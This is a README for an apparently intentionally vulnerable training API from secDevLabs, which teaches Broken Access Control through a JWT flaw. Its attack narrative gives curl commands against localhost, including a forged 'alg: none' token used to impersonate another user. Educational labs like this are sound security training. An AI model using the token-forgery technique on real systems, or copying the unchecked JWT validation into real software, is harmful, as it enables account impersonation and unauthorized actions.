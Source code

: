 # Camp Crystal Lake API

[Acessar conteudo em Português](README_PT_BR.md) 

<p align="center">
    <img src="images/camplake.png" width="400" height="400"/>
</p>

Camp Crystal Lake API is a simple Golang web application that contains an example of a Broken Access Control vulnerability and its main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Access control enforces policy such that users cannot act outside of their intended permissions. Failures typically lead to unauthorized information disclosure, modification, or destruction of all data or performing a business function outside the user's limits. 

Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access to other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a1/camp-lake-api
```

```sh
make install
```

Then simply visit [localhost:20001][App] ! 😆

## Get to know the app 💵

To properly understand how this application works, you can follow this step:

- Registering a user, log in and create a new post!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Incorrect JWT validation, such as not validating the signature algorithm used, allows malicious users to create fake tokens and abuse JWT non-validation.

To better understand how the API works, we'll create a new user.

For this example we create the user with the following login credentials - `campLakeAdmin:campLake2021`

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/register  
```

<p align="center">
    <img src="images/attack_1.png"/>
</p>

With the created user, we will login to the application with their credentials to get the JWT token. As it is a test application, the JWT token is returned to the user as soon as he is logged in.

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"campLakeAdmin","password":"campLake2021"}' http://localhost:20001/login
```

<p align="center">
    <img src="images/attack_2.png"/>
</p>

<p align="center">
    <img src="images/attack_4.png"/>
</p>

In possession of the JWT token, we can create a new post in the API, making a POST request directly to the authenticated route `newPost`.

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNhbXBMYWtlQWRtaW4iLCJleHAiOjE2MzMzODI5MzR9.aW4BTVuXaozSbF6EAJfRNsApRA_1hfk2OhaLAo250Uo' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_3.png"/>
</p>

### 🔥

However, the API does not verify the signature used by the JWT token, any malicious user can create a fake token, as shown by the image:

<p align="center">
    <img src="images/attack_5.png"/>
</p>

```sh
curl -s -H 'Content-Type: application/json' -H 'Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6Imphc29uVm9vcmhlc3MiLCJleHAiOjE2MzMzODM1ODZ9.' -d '{"title": "New member ", "post": "Today a new member ..."}' http://localhost:20001/newpost
```

<p align="center">
    <img src="images/attack_6.png"/>
</p>


## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Use fake tokens without a valid signature.
* Impersonate other users through manipulation of the JWT.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests]()!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api
